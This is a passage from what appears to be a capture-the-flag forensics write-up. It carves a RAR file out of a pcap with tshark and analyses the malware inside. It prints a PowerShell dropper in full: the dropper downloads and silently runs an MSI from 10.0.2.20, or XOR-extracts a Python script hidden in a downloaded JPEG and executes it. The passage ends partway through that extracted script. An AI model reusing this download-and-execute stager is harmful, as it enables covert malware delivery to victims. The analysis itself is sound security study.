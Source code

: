 Lets extract only the data from the package by using the following command: 

```
tshark -r raring.pcap -Y "http.response and http.content_type contains \"application/octet-stream\"" -T fields -e http.file_data
```

But even better lets re-create the rar file by passing this into xxd using the following command: 

```
tshark -r raring.pcap -Y "http.response and http.content_type contains \"application/octet-stream\"" -T fields -e http.file_data | xxd -r -p > file.rar
```

### STEP 4. Extract the rar file (using unarchiver or similar)

This will reveal that the rar-file contain a script (IMPORTANT.md .cmd) 
Inside the file there is a powershell script that looks like this: 

```
@echo off
powershell.exe -command 'if ((&{python -V} 2>&1 | % gettype) -eq [System.Management.Automation.ErrorRecord]) {Invoke-WebRequest http://10.0.2.20/msupdate.msi -OutFile C:\Temp\msupdate.msi; Start-Process "C:\Temp\msupdate.exe" -WindowStyle Hidden} else {$s = (Invoke-WebRequest "http://10.0.2.20/G78GAP3GQV8B.jpg").Content; $k = $s[-4934..-2467]; $v = $s[-2467..-1]; $o = @(); for ($i = 0; $i -lt 2467; $i++) { $o += $k[$i] -bxor $v[$i]; }; $o = [System.Text.Encoding]::ASCII.GetString($o); python3 -c "$($o)"}'
```

If python is installed on this computer it will download an image. 
Inside that image there is a hidden python script that this script will try to extract and run. 
The code of the script is in two diffrent segments and is recovered by joining two lists with xor. 

Since we can see in the pcap-file that the image has been downloaded, we know that this script did run on the victims comupter.

### STEP 5. Recover the python code from the image

Create a script the extracts the code from the image. 

I created a python script decrypt_img.py in order to extract the hidden code from the image file

To extract the data from the image, the following command can be used: 

```
tshark -r raring.pcap -Y "http.response and http.content_type contains \"image/jpeg\"" -T fields -e http.file_data
```

And it can be piped into the script directly.

The python script will be visable in plain text. 

### STEP 6. Analyze the script 

Hidden code from the image:  

```
from Crypto.Random import get_random_bytes
from Crypto.Cipher import AES, PKCS1_OAEP
from Crypto.PublicKey import RSA
from time import sleep
import subprocess
import socket


def encrypt_session_key(session_key: bytes) -> bytes:
    # TODO: generate new rsa key, p and q are too close..
    public_pem = '''-----BEGIN PUBLIC KEY-----
    MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA2p66AmcxzvL+l5Ib/SjM
```